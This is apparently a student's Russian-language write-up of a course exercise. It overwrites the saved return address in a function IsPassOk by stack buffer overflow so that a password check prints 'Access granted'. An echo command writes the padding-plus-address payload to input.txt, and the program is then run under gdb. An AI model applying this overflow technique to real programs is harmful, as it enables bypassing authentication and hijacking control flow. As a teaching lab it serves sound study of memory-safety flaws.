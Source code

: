 # Решение задачи про взлом (5.2)

1. Узнаем адрес возврата, сохраненный в ф-ии IsPassOk, который нужно перезаписать:
![адрес возврата](/media/sf___Windows-Ubuntu/adres_vozvrata.jpg)

2. Узнаем адрес строки "Access granted": 
![адрес строки](/media/sf___Windows-Ubuntu/adres_stroki.jpg)

3. Запишем необходимое кол-во байт в файл input.txt:
`echo -ne "12345678901234567890\xd8\x11\x40\00" > input.txt`
    Пояснение: 20 байт - массив символов + сохр. rbp.

4. Запуск программы:
`(gdb) b 30 `
`Breakpoint 1 at 0x4011fa: file task5.2.c, line 31.`
`(gdb) r < input.txt `

![результат](/media/sf___Windows-Ubuntu/result.jpg)